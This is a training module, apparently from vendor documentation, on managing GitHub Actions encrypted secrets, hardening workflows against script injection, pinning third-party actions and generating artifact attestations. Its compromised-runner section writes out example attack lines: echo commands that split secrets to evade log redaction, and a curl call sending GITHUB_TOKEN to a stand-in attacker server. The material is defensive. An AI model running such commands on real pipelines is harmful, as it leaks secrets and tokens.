

Secrets are encrypted environment variables you can create to store tokens, credentials, or any other type of sensitive information your GitHub Actions workflows and actions might rely on. Once created, they become available to use in the workflows and actions that have access to the organization, repository, or repository environment where they're stored.

In this section, you'll explore the different tools and strategies available in GitHub Enterprise Cloud and GitHub Enterprise Server in order to manage the use of encrypted secrets. We'll also explain how to access encrypted secrets in your workflows and actions.

## Manage encrypted secrets at organization level

Creating encrypted secrets at organization level to store sensitive information is a great way to ensure the security of this information, while minimizing management overhead in your enterprise.

Let's say some developers writing workflows in your GitHub organization need the credentials to deploy code to production in some of their workflows. In order to avoid sharing this sensitive piece of information, you could create an encrypted secret containing the credentials at organization level. This way the credentials can be used in the workflows without being exposed.

To create a secret at organization level, go to your organization **Settings** and from the sidebar select **Secrets and variables > Actions > New organization secret**. In the screen that appears, enter a name and a value and choose a repository access policy for your secret:

:::image type="content" source="../media/add-org-secret.png" alt-text="New secret screen for organizations.":::

The access policy appears underneath the secret in the secret list once it's saved:

:::image type="content" source="../media/secret-access-policy.png" alt-text="Encrypted secrets example with access policy displayed.":::

You can select **Update** for more details on the configured permissions for your secret.

## Manage encrypted secrets at repository level

If you need an encrypted secret to be scoped to a specific repository, GitHub Enterprise Cloud and GitHub Enterprise Server also let you create secrets at repository level.

To create a secret at repository level, go to your repository **Settings** and from the sidebar select **Secrets and variables > Actions > New repository secret**. In the screen that appears, enter a name and a value for your secret:

:::image type="content" source="../media/secret-repo.png" alt-text="New secret screen for repositories.":::

## Access encrypted secrets within actions and workflows

### In workflows

To access an encrypted secret in a workflow, you must use the `secrets` context in your workflow file. For example:

```yml
steps:
  - name: Hello world action
    with: # Set the secret as an input
      super_secret: ${{ secrets.SuperSecret }}
    env: # Or as an environment variable
      super_secret: ${{ secrets.SuperSecret }}
```

### In actions

To access an encrypted secret in an action, you must specify the secret as an `input` parameter in the `action.yml` metadata file. For example:

```yml
inputs:
  super_secret:
    description: 'My secret token'
    required: true
```

If you need to access the encrypted secret in your action's code, the action code could read the value of the input using the `$SUPER_SECRET` environment variable.

> [!WARNING]
> When authoring your own actions, make sure not to include any encrypted secrets in your action's source code, because actions are sharable units of work. If your action needs to use encrypted secrets or other user-supplied inputs, it's best to use the core module from the [Actions Toolkit](https://github.com/actions/toolkit).
>

<!-- INFOMAGNUS UPDATES for all of sub OD 4.3 go here! Source Material: https://www.google.com/url?q=https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions , https://docs.github.com/en/actions/security-for-github-actions/using-artifact-attestations/using-artifact-attestations-to-establish-provenance-for-builds -->
## Configure Security Hardening for GitHub Actions

Security hardening for GitHub Actions plays a role in keeping your software supply chain secure.  The next subsections will walk you through practices to cyber harden GitHub actions that you utilize in your workflows.

### Identify best practices for mitigating script injection attacks

Some best practices for mitigating script injection attacks on GitHub actions include:

1. Use javascript actions instead of inline scripts: It is recommended that you use Javascript actions that process context values as arguments, over using values in inline scripts.  By definition, this usage of Javascript actions mitigates the script injection attacks as the context values are not used to generate a shell script that is executed.

   In the example below, the use of the variable as the input to a Javascript action mitigates the potential of the variable being used to facilitate a script injection attack.

   ```yml
    uses: fakeaction/checktitle@v3
    with:
      title: ${{ github.event.pull_request.title }} 
   ```

2. Use intermediate environment variables in inline scripts: In instances where you are using inline scripts, variables that must be injected into the action should be evaluated as environment variables. Environment variables are evaluated before the script is generated and evaluated. Using an intermediate environment variable mitigates the risk of a script injection attack.  An example is displayed below using the `github.event.pull_request.title` variable:

    ```yml
    - name: Check PR title
        env:
          TITLE: ${{ github.event.pull_request.title }}
        run: |
          if [[ "$TITLE" =~ ^octocat ]]; then
          echo "PR title starts with 'octocat'"
          exit 0
          else
          echo "PR title did not start with 'octocat'"
          exit 1
          fi
    ```

3. Leverage workflow templates to implement code scanning: If you click on the **Actions** tab of any repository, you will be able to select the **New Workflow** button on the left side of the pane.  Within the **Choose a Workflow** page that is displayed as a result of clicking on the button, there is a **Security** section where workflow templates can be selected to instantiate as a workflow file in the current repository.  The CodeQL scanner, specifically, can be configured to trigger on an appropriate event to scan a branch's files & flag exposures (CWE's) in actions within workflows; including `script injection`.


4. Restrict permissions for tokens: You should be sure to always apply the `rule of least privilege` to any created token.  In other words, ensure the token is assigned the minimum privileges to achieve the task for which it was created.


### Identify best practices for using third-party actions securely 

Some best practices for third-party actions securely:

1. Pin Actions to a Tag Only if The Author is Trusted: You should only pin an action to a tag ONLY if the author is trusted.  A common example is displayed below:

    ```yml
    - name: Checkout
        uses: actions/checkout@v4  # pinned to specific version tag
    ```

2. Pin Actions to a Full Length Commit SHA: By pinning an action to a full length commit SHA, you ensure, in the only way currently, you are using an immutable release of an action. You should be sure to verify that the SHA version of the action is in fact from the intended repository. An example of the same action used previously is displayed below:

    ```yml
      - name: Checkout
        uses: actions/checkout@1e31de5234b9f8995739874a8ce0492dc87873e2  # pinned to specific commit SHA
    ```

3. Audit the Source Code of the action: You should review the source code of the action to verify that data is handled as expected and there is no unexpected malicious activity.

### Define the indicators of a trustworthy third-party action

You should have situational awareness of indicators of a trustworthy third-party action to be better able to manage risk.  The action should appear on the Github Marketplace. When you view the action's entry in the GitHub Marketplace, ensure that it shows the 'Verified creator' badge to the right of the title (highlighted red in the image below).  This indicates that the vendor has been verified by GitHub.  In addition, the `action.yml` file defining the action should be well documented.


### Use Dependabot version updates to keep actions up-to-date

You should enable Dependabot version updates for GitHub actions.  

### Potential Impact of a Compromised Runner

The following subsections outline potential attack vectors that could advantage a compromised runner.

#### Exfiltration of Data from a Runner

Although GitHub actions automatically redact secrets printed to the log, this is not a true security boundary.  Once a runner is compromised, secrets can intentionally be sent to the log.  A simple example of exfiltrating secrets via script are:

```yml
      echo ${SOME_SECRET:0:4}; 
      echo ${SOME_SECRET:4:200};
```
      
The compromised runner can be utilized to forward secrets, or other repository data, to an external server via scripted HTTP requests.

#### Access to Secrets

Workflows triggered from a forked repository using the `pull_request` event have read-only permissions and have no access to secrets. However, these permissions differ for various event triggers such as `issue_comment`, `issues`, `push` and `pull_request` from a branch within the repository. If a runner is compromised, there is a risk that repository secrets could be stolen or a job's GITHUB_TOKEN `write` permissions could be compromised.

- If the secret or token is set to an environment variable, it can be directly accessed through the environment using `printenv`.
- If the secret is used directly in an expression, the generated shell script is stored on-disk and is accessible.
- For a custom action, the risk can vary depending on how an action is using the secret it obtained from the argument:

```yml
uses: exampleaction/publish@v3
with:
    key: ${{ secrets.PUBLISH_KEY }}
```

Although GitHub Actions scrubs secrets from memory that are not referenced in the workflow (or an included action), the GITHUB_TOKEN and any referenced secrets are at risk of being harvested.

#### Stealing a Job's GITHUB_TOKEN

It is possible for an attacker to steal a job's GITHUB_TOKEN. The GitHub Actions runner automatically receives a generated GITHUB_TOKEN with permissions that are limited to just the repository that contains the workflow. The token expires after the job has completed. Once expired, the token is no longer useful for maligned use. To work around this limitation, a cyber operative can automate an attack to perform in fractions of a second by calling an attacker-controlled server with the token from the compromised run. 
For example: 

```yml
curl http://example.com?token=$GITHUB_TOKEN
```

#### Modification of Repository Contents

Once the GITHUB_TOKEN is attained, an attacker-controlled system could utilize the token in calls to the GitHub Api to modify repository contents.  When you restrict the GITHUB_TOKEN permissions using the rule of "least privilege', some of the risk is mitigated.

### Managing Cross-Repository Access

  1. **GITHUB_TOKEN**

The GITHUB_TOKEN token is intentionally scoped to the single repository that invokes a workflow, and can have the same level of access as a write-access user on the repository. The token is created before each job begins and expires when the job is finished. For more information, see [Automatic token authentication](https://docs.github.com/en/actions/security-for-github-actions/security-guides/automatic-token-authentication). The GITHUB_TOKEN should be used whenever possible.

  2. **Repository Deploy Key**

Deploy keys are one of the only credential types that grant read or write access to a single repository, and can be used to interact with another repository within a workflow. 
Note that deploy keys can only clone and push to the repository using Git, and cannot be used to interact with the REST or GraphQL API, so they may not be appropriate for your requirements.
   
  3. **GitHub App Tokens**

GitHub Apps can be installed on select repositories. They have granular permissions on the resources within them. You could create a GitHub App internal to your organization, install it on the repositories you need access to within your workflow, and authenticate as the installation within your workflow to access those repositories. 

  4. **Personal Access Tokens**

You should never use a `personal access token (classic)` to access a repository from a GitHub action. These tokens grant access to all repositories within the organizations that you have access to, as well as all personal repositories in your personal account. This indirectly grants broad access to all write-access users of the repository the workflow is in.

A `fine-grained personal access token` should be used that is for a new account that belongs to your organization and that is only granted access to the specific repositories that are needed for the workflow. Note that this approach is not scalable and should be avoided in favor of alternatives, such as deploy keys.

  

  5. **SSH Keys on Personal Accounts**

Workflows should never use the SSH keys on a personal account. Similar to `personal access tokens (classic)`, they grant read/write permissions to all of your personal repositories as well as all the repositories you have access to through organization membership. This indirectly grants broad access to all write-access users of the repository the workflow is in. If you're intending to use an SSH key because you only need to perform repository clones or pushes, and do not need to interact with public APIs, then you should use individual deploy keys instead.

### Audit GitHub Action Events

The type of action, when it was run, and which personal account performed the action are recorded in the 'security log' and the 'audit log'.  The 'security log' records events related to your user account.  The 'audit log' records events related to your organization.  Thus by viewing both of these logs you can audit events related to github actions.

### Using OIDC with GitHub Actions

You can configure workflows to authenticate directly with a cloud provider using OIDC (OpenID Connect). In this case, there is no longer the need to store credentials as secrets.  

### Artifact attestions for GitHub Actions

Artifact attestations are used to establish provenance for builds.  By establishing what, where and how software was built, attestations help to increase software supply chain security.

#### What to attest

With GitHub Actions, you can attest to build provenance & SBOM's for binaries and container images.

#### Generating artifact attestations for builds

When you generate an artifact attestation for builds you must ensure:

* You have the appropriate permissions configured in the workflow
* You have included a step in your workflow that uses the  [attest-build-provenance](https://github.com/actions/attest-build-provenance) action.

The attestation establishes build provenance.  You can view attestations in the repository's **Actions** tab. 



##### Generating an attestation for build provenance of binaries

1. You must add the following permissions to the workflow that builds the binary for which you intend to attest:
   ```yml
      permissions:
       id-token: write
       contents: read
       attestations: write
   ```
   
2. You must add the following step after the step where the binary is built:
    ```yml
      - name: Generate artifact attestation
        uses: actions/attest-build-provenance@v2
        with:
         subject-path: 'PATH/TO/ARTIFACT'
     ```

Note that the value of the `subject-path` parameter should be set to the path to the binary you will attest.

##### Generating an attestation for build provenance of container images

1. You must add the following permissions to the workflow that builds the container image for which you intend to attest:
   ```yml
       permissions:
        id-token: write
        contents: read
        attestations: write
        packages: write
   ```
2.  You must add the following step after the step where the container image is built:
    ```yml
        - name: Generate artifact attestation
        uses: actions/attest-build-provenance@v2
        with:
          subject-name: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}
          subject-digest: 'sha256:fedcba0...'
          push-to-registry: true
    ```
    
Note that the value of the `subject-name` parameter should specify the fully-qualified image name. For example, `ghcr.io/user/app` or `acme.azurecr.io/user/app`. DO NOT include a tag as part of the image name.

The value of the `subject-digest` parameter should be set to the `SHA256` digest of the subject for the attestation, in the form `sha256:HEX_DIGEST`. If your workflow uses `docker/build-push-action`, you can use the digest output from that step to supply the value. For more information on using outputs, see [Workflow syntax for GitHub Actions](https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#jobsjob_idoutputs).    
   
#### Generating attestations for SBOMs

You have the ability to generate SBOM attestions for an SBOM.  To generate and attest to an SBOM you must perform the following:

*  Ensure you have set the appropriate permissions in the workflow (see examples below).
*  You must generation an SBOM for the artifact in a step in the workflow.  For an example, see anchore-sbom-action in the GitHub Marketplace.
*  Include a step in your workflow that uses the attest-sbom action (see examples below)

##### Generating an SBOM attestation for binaries

1. You must add the following permissions to the workflow that builds the binary for which you will generate an SBOM attestation:
   ```yml
       permissions:
        id-token: write
        contents: read
        attestations: write
   ```
   
2. You must add the following step after the steps where the binary is built and SBOM generated:
    ```yml
        - name: Generate SBOM attestation
        uses: actions/attest-sbom@v1
        with:
          subject-path: 'PATH/TO/ARTIFACT'
          sbom-path: 'PATH/TO/SBOM'
    ```

Note that the value of the `subject-path` parameter should be set to the path of the binary the SBOM describes. The value of the `sbom-path` parameter should be set to the path of the SBOM file you generated.

##### Generating an SBOM attestation for container images

1. You must add the following permissions to the workflow that builds the binary for which you will generate an SBOM attestation:
   
    ```yml
       permissions:
        id-token: write
        contents: read
        attestations: write
        packages: write
    ```
    
2. You must add the following step after the steps where the binary is built and SBOM generated:
   
    ```yml
        - name: Generate SBOM attestation
        uses: actions/attest-sbom@v1
        with:
          subject-name: ${{ env.REGISTRY }}/PATH/TO/IMAGE
          subject-digest: 'sha256:fedcba0...'
          sbom-path: 'sbom.json'
          push-to-registry: true
    ```

Note that the value of the `subject-name` parameter specifies the fully-qualified image name. For example, `ghcr.io/user/app` or `acme.azurecr.io/user/app`. Do not include a tag as part of the image name.

The value of the `subject-digest` parameter should be set to the `SHA256` digest of the subject for the attestation, in the form s`ha256:HEX_DIGEST`. If your workflow uses `docker/build-push-action`, you can use the digest output from that step to supply the value (see [build-push-action](https://github.com/docker/build-push-action?tab=readme-ov-file#outputs)). For more information on using outputs, see [Workflow syntax for GitHub Actions](https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#jobsjob_idoutputs).

The value of the `sbom-path` parameter should be set to the path to the JSON-formatted SBOM file for which you intend to attest.
    
#### Verifying artifact attestations with the GitHub CLI

You can validate the artifact attestations outlined above using the GitHub CLI.  For more information, see the [attestation section](https://cli.github.com/manual/gh_attestation) of the GitHub CLI manual.

> [!WARNING]
> It is important to remember that artifact attestations are not a guarantee that an artifact is secure. Instead, artifact attestations link you to the source code and the build instructions that produced them. It is up to you to define your policy criteria, evaluate that policy by evaluating the content, and make an informed risk decision when you are consuming software.
>
